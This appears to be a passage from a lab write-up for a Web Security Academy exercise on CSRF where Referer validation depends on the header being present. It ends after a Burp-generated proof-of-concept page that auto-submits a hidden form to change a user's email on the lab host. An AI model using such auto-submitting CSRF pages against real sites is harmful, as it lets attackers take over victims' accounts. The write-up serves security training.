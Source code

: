 ---------------------------------------------

There is a function to update the email:



![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/2.png)


It is a POST request with the “Referer” HTTP header:



![img](images/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present/3.png)


First we generate the CSRF PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a250042033a996983bd0048004f00df.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
